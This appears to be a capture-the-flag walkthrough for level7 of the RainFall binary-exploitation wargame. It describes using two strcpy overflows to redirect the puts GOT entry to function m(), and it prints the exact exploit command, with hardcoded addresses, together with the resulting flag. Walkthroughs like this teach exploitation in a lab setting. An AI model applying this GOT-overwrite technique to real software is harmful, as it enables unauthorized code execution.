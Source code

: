 # Walkthrough

## Disassembling the executable 

see source.c

## Analysis

We used the first strcpy to overwrite perdu[1] to point to the address of put

We used the second strcpy to write on put() the address of the function m()

This way, when the put function is called, in fact it is calling the m().
```
level7@RainFall:~$ ./level7 $(python -c "print('A' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1643577400

```


